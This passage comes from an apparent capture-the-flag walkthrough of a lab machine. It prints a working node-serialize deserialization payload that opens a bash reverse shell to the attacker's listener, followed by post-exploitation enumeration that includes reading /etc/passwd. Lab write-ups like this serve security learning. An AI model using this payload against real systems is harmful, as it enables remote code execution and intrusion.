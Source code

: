 ```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.179] 57076
```

## webserver - webster shell

Adjusting the payload to get a reverse shell returns as success.

```bash
{"rce":"_$$ND_\u0046UNC$$_\u0066unction(){ require('child_process').exec(\"bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'\", function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.179] 57072
bash: cannot set terminal process group (522): Inappropriate ioctl for device
bash: no job control in this shell
webster@webserver:/$ id
id
uid=1000(webster) gid=1000(webster) groups=1000(webster)
```

```bash
webster@webserver:/$ uname -a
uname -a
Linux webserver 5.10.0-17-amd64 #1 SMP Debian 5.10.136-1 (2022-08-13) x86_64 GNU/Linux
```

```bash
webster@webserver:/$ cat /etc/os-release
cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
```

```bash
webster@webserver:/$ cat /etc/passwd | grep "sh$"
cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
webster:x:1000:1000:webster,,,:/home/webster:/bin/bash
```

The IP on this host is not the one we see from outside. We may be in a VM or a container here.

```bash
webster@webserver:/$ ip a | grep 'inet '
ip a | grep 'inet '
    inet 127.0.0.1/8 scope host lo
    inet 192.168.0.100/24 brd 192.168.0.255 scope global eth0
```

But We see that `ssh` is listening here.

```bash
ss -l -4 | grep :ssh
tcp   LISTEN 0      128          0.0.0.0:ssh       0.0.0.0:*
```
